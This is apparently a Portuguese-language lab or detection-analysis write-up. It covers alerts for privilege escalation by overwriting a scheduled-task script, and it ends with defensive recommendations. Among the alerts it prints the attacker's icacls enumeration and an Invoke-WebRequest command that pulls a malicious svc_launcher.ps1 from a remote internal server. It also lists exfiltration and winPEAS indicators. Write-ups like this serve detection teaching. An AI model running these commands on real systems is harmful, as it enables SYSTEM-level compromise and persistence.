O próximo conjunto de alertas revela um comportamento ofensivo associado à **elevação de privilégios através da substituição de ficheiros** usados por tarefas agendadas.

<br/>
<br/>

### 🛠 Alerta 1: Execução de `icacls.exe`

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/c1c44292-71c0-4a4b-83c4-4362eefe1ddf" height="80%" width="80%"/>
    <br/>
    <br/>
  <p/>

- **Comando Executado**:
  ```cmd
  C:\Windows\system32\icacls.exe C:\TempTask\svc_launcher.ps1
  ```
- **Objetivo**: Enumerar permissões do ficheiro `svc_launcher.ps1` localizado em `C:\TempTask`, usado pelo sistema.
- **Processo Parent**: `powershell.exe` com comando TCPClient típico de backdoor.

<br/>
<br/>

> ⚠️ Este comportamento revela a **intenção de analisar permissões** para determinar se o ficheiro podia ser substituído.

<br/>
<br/>

### 🛠 Alerta 2: `Invoke-WebRequest` com Substituição do Script!

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/9704dda8-e6f2-4005-a17e-b57383e19be3" height="80%" width="80%"/>
    <br/>
    <br/>
  <p/>


- **Comando PowerShell**:
  ```powershell
  Invoke-WebRequest -Uri "http://192.168.1.205:8080/svc_launcher.ps1" -OutFile "C:\TempTask\svc_launcher.ps1"
  ```
- **Intenção**: Substituir o ficheiro legítimo por uma versão maliciosa descarregada do servidor remoto.

<br/>
<br/>

**⚠️ Contexto de Abuso**:
- O ficheiro `svc_launcher.ps1` encontrava-se **mal protegido**, com permisões elevadas e configurado para ser executado por uma **tarefa automática ao arranque do sistema**.
- Ao substituí-lo, o atacante assegura que o **script malicioso será executado com privilégios SYSTEM** na próxima reinicialização.

---

<br/>
<br/>

**Conclusão:**
Estes eventos representam uma tentativa clara de **elevação de privilégios por substituição de scripts agendados**.  
O atacante validou permissões com `icacls` e, ao confirmar fragilidades, usou `Invoke-WebRequest` para implantar um payload malicioso. Esta técnica é comum em **ataques de persistência e privilege escalation**, explorando **tarefas de sistema mal configuradas**.

<br/>
<br/>

## ✅ **Conclusão da Fase 2**

<br/>
<br/>

#### **Resumo dos indicadores detetados:**

- **Execução de PowerShell com parâmetros de evasão**, incluindo `-ExecutionPolicy Bypass`, `-WindowStyle Hidden`.
- **Download de scripts via HTTP** através de `Invoke-WebRequest` e `DownloadString`, envolvendo IP interno `192.168.1.205` na porta `8080`.
- **Ferramenta de enumeração `winPEAS` transferida e executada** no sistema.
- **Exfiltração de dados com `Invoke-RestMethod`**, enviando ficheiros `.txt` com resultados da enumeração para o servidor remoto.
- **Substituição de script legítimo (`svc_launcher.ps1`) por versão maliciosa**, com permissões permissivas na pasta `C:\TempTask\`.
- **Técnica de Escalada de Privilégios via tarefa agendada**, visando execução com permissões SYSTEM.

<br/>
<br/>
    
#### 🔐 **Recomendações:**

- **Monitorizar e bloquear o uso de PowerShell com parâmetros suspeitos** (`Bypass`, `Hidden`, `NoProfile`) através de regras em EDR/SIEM.
- **Restringir comunicações para IPs internos em portas incomuns** (ex: `8080`) e inspecionar atividades de rede não autorizadas.
- **Aplicar permissões rigorosas em diretórios sensíveis**, como `C:\TempTask\`, impedindo escrita por utilizadores sem privilégios elevados.
- **Auditar e validar tarefas agendadas** que executam scripts PowerShell no arranque.
- **Implementar AppLocker ou WDAC** para limitar a execução de scripts não assinados e ferramentas de pós-exploração

---

<br/>
<br/>
